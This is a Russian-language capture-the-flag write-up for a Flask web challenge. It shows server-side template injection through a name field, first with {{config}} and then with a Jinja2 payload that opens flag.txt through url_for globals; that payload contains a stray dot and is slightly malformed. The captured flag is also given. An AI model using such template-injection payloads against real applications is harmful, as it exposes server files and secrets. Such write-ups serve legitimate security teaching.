

# Trial by Fire (Web) - 950 points
## Writeup Author - GameIsOn
---

## Files

[Site backend](./web_trial_by_fire.zip)

---

Открываем сайт и видим приветственный баннер, а также поле ввода имени нашего бойца.

"Perhaps 49 is the key" - Число 49 обычно появляется, когда делают базовую проверку на SSTI ([Server-Side Template Injection](https://hacktricks.boitatech.com.br/pentesting-web/ssti-server-side-template-injection)) - `$(7*7)`.

Сайт написан на Flask, так что можем попробовать переменную config. Заносим её как наше имя в поле ввода: `{{config}}`.

Отлично, SSTI работает. Флаг у нас лежит в файле flag.txt в папке веб-сервера, поэтому прописываем пейлоуд на его прочтение:
`{{url_for.__globals__.__builtins__['open'].('./flag.txt', 'r').readline()}}`

`url_for` - функция, создающая URL-адрес для заданной конечной точки.
`__globals__` - глобальные переменные функции
`__builtins__` - встроенные функции в глобальных переменных
`['open']("./flag.txt", 'r').readline()` - используем функцию open, чтобы открыть файл с флагом.

---

## Flag

`HTB{Fl4m3_P34ks_Tr14l_Burn5_Br1ght_104a5457af58bf2848e197ce77e23e7e}`